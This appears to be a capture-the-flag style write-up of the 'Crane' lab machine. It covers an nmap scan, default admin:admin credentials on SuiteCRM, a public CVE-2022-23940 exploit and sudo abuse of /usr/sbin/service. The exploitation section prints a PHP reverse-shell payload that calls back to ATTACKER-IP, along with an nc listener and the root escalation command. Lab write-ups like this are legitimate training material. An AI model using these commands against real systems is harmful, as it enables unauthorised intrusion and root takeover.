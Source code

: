 ```yaml
---
title: Crane - Intermediate - Linux - PG Practice
date: 2024-06-12
tags:
  - pg-practice
  - offsec
  - oscp-prep
  - linux
  - ospg
  - php
draft: false
---
```

# Crane - Intermediate - Linux - PG Practice

# **Scanning**

My basic scan runs the following command
```bash
nmap -sC -T5 -Pn -p- --min-rate=10000 $IP
```

```python
┌──(kali㉿kali)-[~/Desktop/PGPractice/Easy/Linux]
└─$ basic 192.168.217.146
Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-11 15:19 EDT
Warning: 192.168.217.146 giving up on port because retransmission cap hit (2).
Nmap scan report for 192.168.217.146
Host is up (0.11s latency).
Not shown: 49031 filtered tcp ports (no-response), 16501 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey: 
|   2048 3780014a438630c979e7fb7f3ba41edd (RSA)
|   256 b618a1e198fb6cc687554510c6d445b9 (ECDSA)
|_  256 ab8f2de8a204e7b765d3fe5e931e0367 (ED25519)
80/tcp   open  http
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: SuiteCRM
|_Requested resource was index.php?action=Login&module=Users
| http-robots.txt: 1 disallowed entry 
|_/
3306/tcp open  mysql

Nmap done: 1 IP address (1 host up) scanned in 30.76 seconds
```

	Port 80 is running SuiteCRM which is vulnerable to CVE-2022-23940 (found after some googling)

Moreover, a pretty basic mistake of using default credentials where I used `admin:admin` to get inside the `SuiteCRM` as Administrator

	Heres a pro tip, Make Google your best friend, you wont regret, ask him anything and he will tell you everything, please do be stupid and learn how to Google. Heres an amazing resource for you.

https://giybf.com/
# **Exploitation**

We use the following exploit
https://github.com/manuelz120/CVE-2022-23940

```python
┌──(kali㉿kali)-[~/…/Easy/Linux/Crane/CVE-2022-23940]
└─$ python3 exploit.py --help
Usage: exploit.py [OPTIONS]

Options:
  -h, --host TEXT        Root of SuiteCRM installation. Defaults to
                         http://localhost
  -u, --username TEXT    Username
  -p, --password TEXT    password
  -P, --payload TEXT     Shell command to be executed on target system
  -d, --is_core BOOLEAN  SuiteCRM Core (>= 8.0.0). Defaults to False
  --help                 Show this message and exit.

  https://github.com/manuelz120/CVE-2022-23940
```

I make slight changes to the code, where I add the Machine IP as default. Running the exploit on local alongwith a listener gets us a `www-data` shell
```python
┌──(kali㉿kali)-[~/…/Easy/Linux/Crane/CVE-2022-23940]
└─$ python3 exploit.py -u admin -p admin --payload "php -r '\$sock=fsockopen(\"ATTACKER-IP\", 6969); exec(\"/bin/sh -i <&3 >&3 2>&3\");'"

INFO:CVE-2022-23940:Login did work - Trying to create scheduled report
```

```python
└─$ nc -lnvp 6969                
listening on [any] 6969 ...
connect to [ip] from (UNKNOWN) [192.168.217.146] 55124
/bin/sh: 0: can't access tty; job control turned off

$ whoami
www-data
```
# **Privilege Escalation**

I downloaded `linpeas.sh` for a thorough check but as always, I tried to look for a low-hanging fruit by running `sudo -l` and to my surprise this was the output.
```python
www-data@crane:/tmp$ sudo -l
sudo -l
Matching Defaults entries for www-data on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/sbin/service
```

Do you see it?

`/usr/sbin/service` is running with `sudo` permissions. Pretty straight forward now.
Going to GTFObins and found the command for Privilege Escalation
https://gtfobins.github.io/gtfobins/service/

```python
www-data@crane:/tmp$ sudo service ../../bin/sh
sudo service ../../bin/sh
# whoami
whoami
root
# cd /root
cd /root
# ls
ls
email1.txt  proof.txt
# cat proof.txt
cat proof.txt
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

This was way too easy, I think this machine should be kept in Easy category instead of Intemediate.